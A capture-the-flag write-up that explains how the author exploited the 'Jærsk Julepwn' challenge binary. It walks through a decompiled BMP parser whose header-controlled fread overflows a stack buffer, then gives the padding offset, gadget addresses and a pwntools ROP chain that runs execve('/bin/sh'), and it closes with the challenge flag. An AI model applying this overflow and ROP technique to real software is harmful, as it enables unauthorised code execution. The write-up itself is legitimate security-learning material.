

# 🔥 Jærsk Julepwn 🔥

`Carixo` @ Iku-toppene

## Introduction

*Jærsk Julepwn* is a binary challenge where we input a message, input BMP, and output BMP as `argv` parameters. It then performs some random stuff. I honestly don't know what it does since I never actually tried running the binary the intended way. 

## Analysis

The binary has a lot of code, and because it's statically compiled, there is even more code. This does however mean that there are plenty of gadgets to use. 

I started by opening the binary in Ghidra and examining the error messages. While the messages themselves are just random gibberish, they help identify where in the binary the code has crashed or failed. The most important "error" message is probably:
```c
  else {
    printf("Usage: %s <message> <input_bmp> <output_bmp>\n",*argv);
    uVar3 = 1;
  }
```

This message hints at the parameters and which functions use them. In this case:

- `argv[1]` corresponds to `message`
- `argv[2]` corresponds to `input_bmp`


Since we control both `message` and `input_bmp`, I started by examining the functions that use these parameters.

The first function opens the `message` file, saves the content in a heap chunk, and returns the heap pointer.

```c
void * read_RYAOrlhDFATpppdjSvnI_uAcCjZslXRWbcRlNDvUc_into_array(char *message,size_t *message_size)

{
  FILE *__stream;
  void *__ptr;
  size_t __n;
  
  __stream = fopen64(message,"r");
  if (__stream == (FILE *)0x0) {
    fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
    __ptr = (void *)0x0;
  }
  else {
    fseek(__stream,0,2);
    __n = ftell(__stream);
    fseek(__stream,0,0);
    __ptr = malloc(__n + 1);
    if (__ptr == (void *)0x0) {
      fwrite("dEWjbGlaaYamseHMRLsB\n",1,0x15,(FILE *)stderr);
      fclose(__stream);
      __ptr = (void *)0x0;
    }
    else {
      fread(__ptr,1,__n,__stream);
      *(undefined *)((long)__ptr + __n) = 0;
      fclose(__stream);
      if (message_size != (size_t *)0x0) {
        *message_size = __n;
      }
    }
  }
  return __ptr;
}
```
Not much going on here.

The second function, however, seems to be the BMP parser. It takes three pointers as parameters: a pointer (`char*`) to the filename of the input BMP, a `short` pointer where the BMP file header is stored, and a `uint` pointer where the DIB header is stored. This is basically where I stopped my analysis. I noticed a `fread` with `nmemb` set to `DIB_hdrSize - 4`, allowing us to control how many bytes `fread` reads since we control the input BMP and its DIB header size. This opens up a **buffer overflow**.

```c

void * BXMaZvZkKJWwCwhdPcgm(char *input_bmp,short *pInpBMPHdr,uint *buffer)

{
  size_t sVar1;
  uint pDIB_hdrSize;
  void *local_18;
  FILE *fd;
  
  fd = fopen64(input_bmp,"rb");
  if (fd == (FILE *)0x0) {
    fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
    local_18 = (void *)0x0;
  }
  else {
    sVar1 = fread(pInpBMPHdr,14,1,fd);
    if (sVar1 == 1) {
      if (*pInpBMPHdr == 0x4d42) { // check if header starts with BM
        sVar1 = fread(&pDIB_hdrSize,4,1,fd); // we control this
        if (sVar1 == 1) {
          memset(buffer,0,0x7c);
          *buffer = pDIB_hdrSize;
          sVar1 = fread(buffer + 1,1,(ulong)pDIB_hdrSize - 4,fd); // so we also control this
          if (sVar1 == (ulong)pDIB_hdrSize - 4) {
            local_18 = malloc((ulong)buffer[5]);
            if (local_18 == (void *)0x0) {
              fwrite("dEWjbGlaaYamseHMRLsB 32jK JOAPSFD vSBrFLJcJWtbKaObJyeu\n",1,0x37,
                     (FILE *)stderr);
              fclose(fd);
              local_18 = (void *)0x0;
            }
            else {
              fseek(fd,(ulong)*(uint *)(pInpBMPHdr + 5),0);
              fread(local_18,1,(ulong)buffer[5],fd);
              fclose(fd);
            }
          }
          else {
            fwrite("inVwjsMlYDliYKrsAKHk\n",1,0x15,(FILE *)stderr);
            fclose(fd);
            local_18 = (void *)0x0;
          }
        }
        else {
          fwrite("inVwjsMlYDliYKrsAKHk EMOicOHFBYnOIJfgcuPU\n",1,0x2a,(FILE *)stderr);
          fclose(fd);
          local_18 = (void *)0x0;
        }
      }
      else {
        fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
        fclose(fd);
        local_18 = (void *)0x0;
      }
    }
    else {
      fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
      fclose(fd);
      local_18 = (void *)0x0;
    }
  }
  return local_18;
}
```
I didn't check the protections the binary had enabled during the analysis, but now I see that canary is "enabled". Although `checksec` indicates that canary protection is enabled, the functions written by `@nordbo` don’t actually check the canary  (no local_10 check with `fs[0x28]`). `checksec` likely shows the canary because some libc functions include it.

## Exploitation
We start by creating a BMP file that starts with `BM` and is padded to 14 bytes to pass the first header check:
```py
bmp = b"BM".ljust(14, b"A")
```
Now that the check is passed, we are one step closer to the buffer overflow.

The next 4 bytes will be the DIB header size, which controls how many bytes `fread` will read from `fd`. For simplicity, I just added 4 `A`s. Therefore, this code will run:

```c
sVar1 = fread(buffer + 1,1, 0x41414141 - 4,fd);
```

The next step is calculating the padding needed to reach the saved return address. We can use `gdb`'s `cyclic` command, read the assembly, or check Ghidra.

In the `main` function in Ghidra, we can see that the variable it takes as `param_3` is named `local_c8`, basically meaning it is `0xc8` bytes away from the saved RIP. The saved `rbp` is for example `Stack[-0x8]` or `local_8`. 

```c
local_28 = (void *)BXMaZvZkKJWwCwhdPcgm(argv[2],local_46,local_c8);
```

However, note that `fread` reads to `buffer + 1`, so we need to subtract `0xc8` by `0x4` (the size of a `uint`). This gives us the padding: **196 bytes**.

Now we can start constructing our ROP chain. I decided on using a combination of `ROPgadget` and the `ROP()` object in `pwntools`. Since `pop rdx; ret` doesn't exist in the binary, I decided to use:
```py
pop_rdx = 0x000000000041c212 # : pop rdx ; add byte ptr [rax], al ; cmovne rax, rdx ; ret
```
This gadget pops a value into `rdx` and then manipulates `rax` and the memory pointed to by `rax`, without modifying `rdx`. So we need to ensure `rax` points to a valid address before using the gadget.

The ROP chain has two parts:
1. A `read()` to write `/bin/sh` into memory
2. An `execve` syscall to get shell


```py
rop = ROP(elf)
rop.rax = elf.bss(0x10) # `pop rdx` gadget requires a valid pointer in `rax`
rop.rdi = 0
rop.rsi = elf.bss(0x100) # location to store `/bin/sh`
rop.raw(pop_rdx)
rop.raw(8)
rop.raw(elf.sym.read)
rop.rdi = elf.bss(0x100) # pointer to `/bin/sh`
rop.rsi = 0
rop.rax = elf.bss(0x200) # valid pointer for `pop rdx` gadget
rop.raw(pop_rdx)
rop.raw(0)
rop.rax = 59
rop.raw(rop.syscall.address)
```

In the `read()`, we send in `/bin/sh\0` 

Boom, shell. 

Full [solve](./code/solve.py) script. 



**Flag: EPT{759b757f1ae9e1c4572f0dee6590199e}**